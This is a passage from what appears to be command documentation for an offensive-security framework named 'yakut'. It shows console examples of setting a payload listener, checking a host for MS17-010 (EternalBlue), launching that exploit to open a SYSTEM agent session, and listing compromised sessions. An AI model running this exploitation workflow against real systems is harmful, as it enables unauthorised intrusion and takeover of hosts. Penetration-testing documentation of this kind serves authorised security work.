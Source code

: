 ### `payload options set <OPTION_NAME> <value>` or `pset <OPTION_NAME> <value>` (within capability context)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > pset LHOST eth0
LHOST => eth0
```

### `capability check` or `check` (within capability context, if capability supports it)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > check
[*] 10.10.10.150:445 - Checking for MS17-010 vulnerability...
[+] 10.10.10.150:445 - The target appears to be vulnerable to MS17-010 (EternalBlue).
```

### `capability run [--async]` or `run [--async]` or `exploit [--async]` (within capability context)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > run
[*] 10.10.10.150:445 - Launching exploit for MS17-010...
[+] 10.10.10.150:445 - Exploit successful! YakutAgent session 1 opened (192.168.1.10:4433 -> 10.10.10.150:49152)
```

### `back`

Exits the current capability (or session) context and returns to the previous context (usually global or workspace).

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > back
yakut [ws:ACME_Corp_Internal] >
```

### `capability reload_paths`

```console
yakut > capability reload_paths
[*] Reloading capabilities from all paths...
[+] Found 5 new capabilities.
```

---

# 4. Session Management Commands

### `sessions list` or `sessions`

```console
yakut > sessions list
[*] Active sessions:
  ID  Type        Info                         Tunnel/Via   Target        User   Workspace
  --  ----        ----                         ----------   ------        ----   ---------
  1   yakut_agent Yakut Agent v0.1 (Ruby/Win)  L:eth0:4433  10.10.10.150  SYSTEM ACME_Corp_Internal
  2   shell       /bin/bash                    L:eth0:4444  10.10.20.30  www-data ACME_Corp_Internal
```
